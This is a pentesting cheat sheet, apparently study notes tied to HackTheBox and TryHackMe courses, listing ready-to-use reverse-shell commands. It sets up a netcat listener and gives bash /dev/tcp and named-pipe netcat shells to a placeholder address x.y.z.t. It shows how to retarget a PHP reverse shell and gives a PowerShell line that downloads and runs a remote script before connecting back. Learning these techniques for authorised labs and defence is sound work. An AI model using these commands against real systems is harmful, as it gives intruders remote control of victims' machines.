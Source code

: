 # Reverse shell

[Go back](../index.md#remote-shell-)

[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-md-2"><div>

A reverse shell is a shell in which a victim <small>(client)</small> connects to a server <small>(hacker)</small> allowing us to use the victim to exploit the remote host.

Most reverse shell are connecting to a netcat server. The server could run on port 4444 <small>(up to you!)</small>, giving us:

```shell!
$ nc -lvnp 4444
```

You will have to configure your reverse shells to connect back to it. We consider the server IP to be `x.y.z.t`, port `4444` in commands below.
</div><div>

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) (2.5k ⭐).
</div></div>

<hr class="sep-both">

## revshells.com

<div class="row row-cols-md-2"><div>

The best way to create reverse shells is to use the website [revshells](https://www.revshells.com/).

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div><div>

Other alternatives are:

* [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐, script)
* [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, script, 2018/2019)
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-md-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-md-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-md-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) (0.7k ⭐).

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```
</div><div>

You can try [powercat](https://github.com/besimorhino/powercat) <small>(1.8k ⭐, powershell netcat client/server)</small>
</div></div>